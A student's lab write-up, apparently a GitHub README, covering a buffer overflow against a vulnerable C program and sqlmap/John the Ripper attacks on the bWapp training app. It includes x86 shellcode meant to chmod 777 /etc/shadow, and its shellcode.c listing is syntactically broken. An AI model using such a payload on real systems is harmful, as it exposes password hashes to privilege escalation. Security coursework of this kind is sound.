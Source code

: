 # 22110021_HanMinhDinh_InforSercu_Lab1
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege

**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
- First i will mapped to my file here is my-docker-image
![image](https://github.com/user-attachments/assets/2394dc24-071e-4d8d-baca-5c0b1d7e17a8)
- we find out what in this file
![image](https://github.com/user-attachments/assets/17c7f6c2-696c-4ca4-a4da-7f7f275235c4)
- we create new file vulnerable, and access in 
![image](https://github.com/user-attachments/assets/8d09e0a4-8777-4c03-a3a0-789147b5cc46)
-we put code into file
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
![image](https://github.com/user-attachments/assets/cddb1366-b8b4-4404-96ec-b2a30072dada)
- save then exit
- we do the same with file shellcode.c
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
![image](https://github.com/user-attachments/assets/56a72d4d-6c8f-47a0-acf3-b722830cbdcd)

![image](https://github.com/user-attachments/assets/e9b35c20-0372-4b55-a41c-5847d3225ca9)
- then we need to compile this file
![image](https://github.com/user-attachments/assets/22ec116d-d41f-4422-ba07-af6eefe2ceec)
![image](https://github.com/user-attachments/assets/64707d00-0474-4dd6-bedc-6e0e997bae7e)
- we run file shellcode
![image](https://github.com/user-attachments/assets/f51ea33a-c12a-43c1-8c65-a9c3d415d8de)
- then we run
![image](https://github.com/user-attachments/assets/79daa6bd-f1f8-4c74-8843-21764aefeb7e)
![image](https://github.com/user-attachments/assets/e56e5dbb-a5d4-41b8-9eb1-819ef64535f2)
![image](https://github.com/user-attachments/assets/9d29832f-17d3-4415-a5ea-3b3dec9659bc)
![image](https://github.com/user-attachments/assets/bbd339f4-9fca-4328-97fb-8e476842d191)


Conclusion of Task 1: Buffer Overflow Attack
We executed a buffer overflow attack on a vulnerable C program by overwriting memory with shellcode to change permissions on /etc/shadow. The attack illustrated the critical need for input validation and secure coding practices to prevent such vulnerabilities. Despite our efforts, the permission change was unsuccessful



# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
![image](https://github.com/user-attachments/assets/28a67b39-69e6-4314-9f18-2c19b33c81cc)
![image](https://github.com/user-attachments/assets/32a1a24b-af0a-4d90-8932-b5fa4bf35de2)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
![image](https://github.com/user-attachments/assets/15a1a2d4-e1d3-48a3-894e-18f053766f42)
![image](https://github.com/user-attachments/assets/1d9f9a9d-008b-426b-84e9-da8fe2c681bd)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
